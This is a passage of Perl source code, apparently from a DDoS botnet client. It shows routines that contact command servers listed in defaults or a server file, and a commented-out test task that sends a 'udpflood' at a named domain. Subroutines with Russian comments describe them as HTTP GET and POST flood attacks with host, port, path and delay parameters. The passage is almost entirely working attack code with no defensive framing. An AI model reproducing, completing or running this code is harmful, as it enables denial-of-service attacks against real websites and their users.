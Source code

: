 	$currentServer = $host;
	$currentPort = $port;

	#test
	#push(@newTaskList, "1|udpflood|www.fanpresent.ru|1000|30|20");

	manageTaskList();
	return 0;
}

sub Ping {
	my $path = $_[0];

	foreach my $def (@defaults){
		if ($def =~/^(.*)\:(.*)/){
			if (connectToServer($1, $2, $path) == 0){
				return;
			}
		}
	}

	if (open(FILE, $serverfile)){
		my @serverlist = <FILE>;
		close (FILE);
		foreach my $i (@serverlist){
			if ($i =~ /^(.*)\:(.*)/){
				if (connectToServer($1, $2, $path) == 0){
					return;
				}
			}
		}
	}

	print "No alive servers.\n";
	return;
}

#хттп ГЕТ атака (парамерты : хост, порт, путь до скрипта, время ожидания между запросами)
sub sendGetRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];
	socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
	$iaddr = inet_aton($host);
	$paddr = sockaddr_in($port, $iaddr);
	connect(SOCK, $paddr);

	my $request = "GET ".$path." HTTP/1.0\nHost: ".$host."\n\n";
	send (SOCK, $request, 0);
	close(SOCK);
}

#хост, порт, путь до скрипта, время ожидания между запросами, текстовый буффер для отсылки в теле ПОСТа
sub sendPostRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];
	my $content = $_[3];	
